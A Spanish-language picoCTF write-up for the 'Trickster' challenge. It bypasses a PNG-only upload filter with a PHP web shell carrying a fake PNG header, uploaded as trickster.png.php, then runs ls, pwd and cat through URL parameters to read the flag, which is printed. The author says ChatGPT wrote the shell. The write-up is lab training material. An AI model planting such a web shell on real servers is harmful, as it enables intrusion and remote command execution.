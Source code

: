 ### Descripción
I found a web app that can help process images: PNG images only!

Additional details will be available after launching your challenge instance.
#### Una vez iniciada la instancia del desafío:
I found a web app that can help process images: PNG images only!
Try it [here](http://atlas.picoctf.net:64745/)!
### Solución
Una vez desplegada la instancia del desafío, se hace clic en el enlace mostrado, teniendo la carga del siguiente sitio web: 

![[Pasted image 20250401192116.png]]

En dicho sitio se pueden subir solo imágenes en formato **.png**, donde se realiza una prueba con una respectiva imagen, la cual resulta exitosa, pero como no podemos hacer algo más, ya que si se intenta ingresar a otras secciones del sitio, no deja, se procede a revisar el archivo **robots.txt**, resultando en el siguiente enlace:

```
http://atlas.picoctf.net:64745/robots.txt
```

Una vez colocado en la barra del buscador, nos muestra lo siguiente

```
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```

Por lo que se prueban ambas opciones, siendo la primera un texto que nos dice que los números mágicos que permiten identificar un archivo .png son "50, 4E, 47", es por eso que se decide consultar ChatGPT para pedirle crear un web shell simple de php, resultando en el siguiente:

```php
PNG
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

Una vez guardado como **trickster.png.php**, se procede a subirlo al sitio web, donde como podemos ver en la siguiente imagen se subió de forma correcta:

![[Pasted image 20250401192901.png]]

Una vez cargado en la plataforma, procedemos a ejecutarlo con ayuda del link del sitio web, donde solo se agrega el nombre del archivo, seguido de un signo de cierre de interrogación, por ultimo el comando precedido por *cmd=*, tal como se aprecia en seguida:

```
http://atlas.picoctf.net:64745/uploads/trickster.png.php?cmd=ls
```

Es entonces que se nos presenta esto en pantalla:

![[Pasted image 20250401193326.png]]

Para saber donde nos encontramos, hacemos uso del comando **pwd**, como se aprecia:

```
http://atlas.picoctf.net:64745/uploads/trickster.png.php?cmd=pwd
```

Dándonos el siguiente resultado después de la ejecución del comando:

![[Pasted image 20250401193406.png]]

Se vuelve a emplear el comando **ls** para saber el contenido del directorio donde nos encontramos en ese momento haciendo uso del siguiente link:

```
http://atlas.picoctf.net:64745/uploads/trickster.png.php?cmd=ls%20..
```

Arrojándonos el siguiente resultado en pantalla:

![[Pasted image 20250401193602.png]]

Por último, para ver el contenido del archivo .txt de nombre raro, se emplea el comando **cat**:

```
http://atlas.picoctf.net:64745/uploads/trickster.png.php?cmd=cat%20../GQ4DOOBVMMYGK.txt
```

Mostrándonos lo siguiente:

![[Pasted image 20250401193549.png]]

Obteniendo así la bandera que soluciona este reto:

```
picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_48785c0e}
```
### Notas Adicionales

### Referencias
